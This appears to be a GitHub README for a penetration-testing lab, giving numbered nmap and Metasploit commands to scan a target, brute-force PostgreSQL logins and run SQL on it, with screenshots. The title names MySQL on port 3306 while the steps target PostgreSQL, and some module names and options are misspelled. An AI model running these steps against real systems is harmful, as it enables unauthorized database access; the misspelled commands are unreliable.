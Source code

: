 # Prot-3306-MySQL-5.0.51a-3ubuntu5
1.nmap -sV (target ip)

![image](https://github.com/thanawut2903/Prot-3306-MySQL-5.0.51a-3ubuntu5/assets/159118913/38447462-7a3a-4bc1-8f9b-8c28848da50a)

2.msfconsole

3.msf 6 > search postgresql

![image](https://github.com/thanawut2903/Prot-3306-MySQL-5.0.51a-3ubuntu5/assets/159118913/ff711188-2823-492b-8d43-c8b2d302473c)

4.msf 6 > use auxiliary/scanner/postgres/postgres_login

5.msf 6 > show options

6.msf 6 > set RHOST (target ip)

![image](https://github.com/thanawut2903/Prot-3306-MySQL-5.0.51a-3ubuntu5/assets/159118913/ac49412b-76bd-4b2e-8749-4453aa808135)

7.msf 6 > set verbose flase

![image](https://github.com/thanawut2903/Prot-3306-MySQL-5.0.51a-3ubuntu5/assets/159118913/cc17ac38-4485-4355-bff5-1d567113ed8b)

8.msf 6 > run

![image](https://github.com/thanawut2903/Prot-3306-MySQL-5.0.51a-3ubuntu5/assets/159118913/014fbbee-5593-43d9-8cbf-09df3855cff2)


9.msf 6 > use auxiliary/admin/postges/postges_sql

10.msf 6 >show options

![image](https://github.com/thanawut2903/Prot-3306-MySQL-5.0.51a-3ubuntu5/assets/159118913/4a76c9a5-1de0-4d21-94c4-844dbf4a66ff)

11.msf 6 > run

![image](https://github.com/thanawut2903/Prot-3306-MySQL-5.0.51a-3ubuntu5/assets/159118913/24a36eb3-3d3b-4e2d-9edf-55ebeb797097)


Reference form : https://www.youtube.com/watch?v=iawadJ76dyA
